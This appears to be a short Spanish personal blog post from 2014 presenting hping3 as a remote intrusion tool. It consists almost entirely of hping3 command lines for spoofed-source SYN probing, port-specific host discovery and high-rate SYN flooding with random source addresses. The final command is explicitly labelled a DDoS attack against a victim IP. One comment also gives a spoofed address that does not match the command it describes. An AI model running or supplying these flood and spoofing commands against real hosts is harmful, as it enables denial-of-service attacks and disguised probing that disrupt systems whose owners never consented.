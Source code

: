 ```yaml
---
layout: post
title: "hping"
date: 2014-01-29 18:31
comments: true
categories: 
---
```

Herramienta de intrusión remota (ataque ICMP)

>\# hping3 -I eth0 -S 192.169.2.2  (ping no silencioso)

>\# hping3 -I eth0 -a 192.168.2.158 -S 192.169.2.2  (enmascarando  nuestra IP con una de ficticia-192.168.1.158)

>\# hping3 -I eth0 -a 192.168.2.158 -S 192.168.2.2 -p 135 (Descubrir máquinas que con un ping no responden, enmascarando la IP y especificando un puerto)

>\# hping3 -S -a ip_ficticia -p 80 -k ip_atacada 

>\# hping3 -i m100 -S -a ip_ficticia -p 80 -k ip_atacada 

>\# hping3 -S 192.168.1.158 --flood --rand-source -d 5000 -p 80 (Enviando paquetes lo más rápido posible [flood], simulando orígenes aleatorios [rand-source], tamaño del paquete en bites [d] y puerto de entrada)

>\# hping3 --rand-source -p 80 -S --flood ip_victima (ataque DDos a una ip)

